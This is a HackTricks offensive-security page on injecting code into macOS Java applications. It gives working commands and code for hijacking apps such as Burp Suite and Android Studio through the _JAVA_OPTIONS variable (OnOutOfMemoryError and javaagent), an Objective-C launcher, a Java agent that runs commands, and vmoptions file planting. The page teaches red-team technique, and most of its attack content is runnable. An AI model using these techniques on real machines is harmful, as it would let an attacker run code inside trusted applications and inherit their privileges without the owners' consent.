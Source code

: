 # macOS Java Applications Injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Enumeration

Find Java applications installed in your system. It was noticed that Java apps in the **Info.plist** will contain some java parameters which contain the string **`java.`**, so you can search for that:

```bash
# Search only in /Applications folder
sudo find /Applications -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null

# Full search
sudo find / -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null
```

## \_JAVA\_OPTIONS

The env variable **`_JAVA_OPTIONS`** can be used to inject arbitrary java parameters in the execution of a java compiled app:

```bash
# Write your payload in a script called /tmp/payload.sh
export _JAVA_OPTIONS='-Xms2m -Xmx5m -XX:OnOutOfMemoryError="/tmp/payload.sh"'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"
```

To execute it as a new process and not as a child of the current terminal you can use:

```objectivec
#import <Foundation/Foundation.h>
// clang -fobjc-arc -framework Foundation invoker.m -o invoker

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        // Specify the file path and content
        NSString *filePath = @"/tmp/payload.sh";
        NSString *content = @"#!/bin/bash\n/Applications/iTerm.app/Contents/MacOS/iTerm2";

        NSError *error = nil;

        // Write content to the file
        BOOL success = [content writeToFile:filePath 
                                 atomically:YES 
                                   encoding:NSUTF8StringEncoding 
                                      error:&error];

        if (!success) {
            NSLog(@"Error writing file at %@\n%@", filePath, [error localizedDescription]);
            return 1;
        }

        NSLog(@"File written successfully to %@", filePath);
        
        // Create a new task
        NSTask *task = [[NSTask alloc] init];

        /// Set the task's launch path to use the 'open' command
        [task setLaunchPath:@"/usr/bin/open"];

        // Arguments for the 'open' command, specifying the path to Android Studio
        [task setArguments:@[@"/Applications/Android Studio.app"]];

        // Define custom environment variables
        NSDictionary *customEnvironment = @{
            @"_JAVA_OPTIONS": @"-Xms2m -Xmx5m -XX:OnOutOfMemoryError=/tmp/payload.sh"
        };

        // Get the current environment and merge it with custom variables
        NSMutableDictionary *environment = [NSMutableDictionary dictionaryWithDictionary:[[NSProcessInfo processInfo] environment]];
        [environment addEntriesFromDictionary:customEnvironment];

        // Set the task's environment
        [task setEnvironment:environment];

        // Launch the task
        [task launch];
    }
    return 0;
}
```

However, that will trigger an error on the executed app, another more stealth way is to create a java agent and use:

```bash
export _JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```

{% hint style="danger" %}
Creating the agent with a **different Java version** from the application can crash the execution of both the agent and the application
{% endhint %}

Where the agent can be:

{% code title="Agent.java" %}
```java
import java.io.*;
import java.lang.instrument.*;

public class Agent {
  public static void premain(String args, Instrumentation inst) {
    try {
      String[] commands = new String[] { "/usr/bin/open", "-a", "Calculator" };
      Runtime.getRuntime().exec(commands);
    }
    catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
{% endcode %}

To compile the agent run:

```bash
javac Agent.java # Create Agent.class
jar cvfm Agent.jar manifest.txt Agent.class # Create Agent.jar
```

With `manifest.txt`:

```
Premain-Class: Agent
Agent-Class: Agent
Can-Redefine-Classes: true
Can-Retransform-Classes: true
```

And then export the env variable and run the java application like:

```bash
export _JAVA_OPTIONS='-javaagent:/tmp/j/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```

## vmoptions file

This file support the specification of **Java params** when Java is executed. You could use some of the previous tricks to change the java params and **make the process execute arbitrary commands**.\
Moreover, this file can also **include others** with the `include` directory, so you could also change an included file.

Even more, some Java apps will **load more than one `vmoptions`** file.

Some applications like Android Studio indicates in their **output where are they looking** for these files, like:

```bash
/Applications/Android\ Studio.app/Contents/MacOS/studio 2>&1 | grep vmoptions

2023-12-13 19:53:23.920 studio[74913:581359] fullFileName is: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] fullFileName exists: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.921 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app.vmoptions
2023-12-13 19:53:23.922 studio[74913:581359] parseVMOptions: /Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
2023-12-13 19:53:23.923 studio[74913:581359] parseVMOptions: platform=20 user=1 file=/Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
```

If they don't you can easily check for it with:

```bash
# Monitor
sudo eslogger lookup | grep vmoption # Give FDA to the Terminal

# Launch the Java app
/Applications/Android\ Studio.app/Contents/MacOS/studio
```

Note how interesting is that Android Studio in this example is trying to load the file **`/Applications/Android Studio.app.vmoptions`**, a place where any user from the **`admin` group has write access.**

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

